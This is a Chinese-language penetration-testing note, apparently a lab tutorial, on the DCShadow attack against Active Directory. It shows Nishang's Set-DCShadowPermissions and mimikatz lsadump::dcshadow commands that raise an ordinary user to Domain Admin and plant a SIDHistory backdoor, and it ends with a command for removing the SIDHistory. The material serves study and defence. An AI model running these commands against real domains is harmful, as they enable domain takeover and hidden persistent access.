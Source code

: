 	http://192.168.0.107/ps/nishang/ActiveDirectory/Set-DCShadowPermissions.ps1
	DCShadow攻击是通过更改AD架构，使域内一台机器伪造成域控。
	此脚本可以通过修改AD对象提供DCShadow攻击的最小权限。
	运行此脚本需要DA(Domain Administrator)权限，可以使指定用户不需要DA权限使用mimikatz。
	域控：dc.zone.com
	域内机器：sub2k8.zone.com
	域内普通用户:y
	域控执行
	>Set-DCShadowPermissions -Fakedc sub2k8 -Object dc -username y –Verbose
	注册sub2k8为假DC，给予用户y从sub2k8修改dc的计算机对象的权限。
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/482.png)

	在sub2k8上，以本地system权限启动一个mimikatz会话，以zone\y权限启动一个mimikatz会话。
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/483.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/484.png)

	System权限窗口执行dcshadow攻击，修改dc的计算机属性
	Zone\y权限窗口用于推送
	添加域管理
	通过修改安全标识符，将域内普通用户y提升为域管理用户
	>lsadump::dcshadow /object:y /attribute:primaryGroupID /value:512
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/485.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/486.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/487.png)

	Zone\y推送
	>lsadump::dcshadow /push
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/488.png)

	此时在域控上查询可见y用户已经加入域管理组。
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/489.png)

	添加SIDHistory后门
	记录域管理SID
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/490.png)

	>Set-DCShadowPermissions -FakeDC sub2k8 -Object y -Username y -Verbose
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/491.png)
	
	>lsadump::dcshadow /object:y /attribute:sidhistory /value:S-1-5-21-2346829310-1781191092-2540298887-500
	推送
	>lsadump::dcshadow /push
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/492.png)

	测试
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/493.png)

	域控中通过mimikatz命令可查询到SIDHistory
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/494.png)

	删除SIDHistory的方法
	PS>Get-ADUser -Filter {name -eq "y"} –Properties sidhistory|foreach {Set-ADuser $_ –remove @{sidhistory="S-1-5-21-2346829310-1781191092-2540298887-500"}}
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/495.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/496.png)

	删除功能规则
	输入的规则后面加参数-remove即可。
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/497.png)
